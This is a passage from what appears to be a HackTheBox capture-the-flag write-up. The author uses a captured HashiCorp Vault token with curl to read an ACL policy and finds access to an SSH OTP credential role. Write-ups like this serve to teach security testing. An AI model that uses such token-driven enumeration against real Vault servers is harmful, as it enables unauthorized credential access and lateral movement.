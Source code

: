 It’s trying to access `/v1/sys/policies/acl/developer` and failing. There’s [another endpoint](https://developer.hashicorp.com/vault/api-docs/system/policy) in the docs which isn’t used (as far as I can tell) by the CLI, `/v1/sys/policy/[name]`. This one that works:

```

oxdf@hacky$ curl -s -XGET "http://prd23-vault-internal.skyfall.htb/v1/sys/policy/developers" -H 'X-Vault-Token: hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE' | jq .
{
  "rules": "path \"sys/policy/developers\" {\n  capabilities = [  \"read\" ]\n}\n\npath \"ssh/*\" {\n  capabilities = [ \"list\" ]\n}\n\npath \"ssh/creds/dev_otp_key_role\" {\n  capabilities = [\"create\", \"read\", \"update\"]\n}\n",
  "name": "developers",
  "request_id": "d1ef5bf4-fde7-6dd9-eac4-675170bb4900",
  "lease_id": "",
  "renewable": false,
  "lease_duration": 0,
  "data": {
    "name": "developers",
    "rules": "path \"sys/policy/developers\" {\n  capabilities = [  \"read\" ]\n}\n\npath \"ssh/*\" {\n  capabilities = [ \"list\" ]\n}\n\npath \"ssh/creds/dev_otp_key_role\" {\n  capabilities = [\"create\", \"read\", \"update\"]\n}\n"
  },
  "wrap_info": null,
  "warnings": null,
  "auth": null
}

```

The `rules` is the most interesting part here:

```

oxdf@hacky$ curl -s -XGET "http://prd23-vault-internal.skyfall.htb/v1/sys/policy/developers" -H 'X-Vault-Token: hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE' | jq '.rules' -r
path "sys/policy/developers" {
  capabilities = [  "read" ]
}

path "ssh/*" {
  capabilities = [ "list" ]
}

path "ssh/creds/dev_otp_key_role" {
  capabilities = ["create", "read", "update"]
}

```

It’s showing that this token has access to this SSH role, `dev_otp_key_role`.
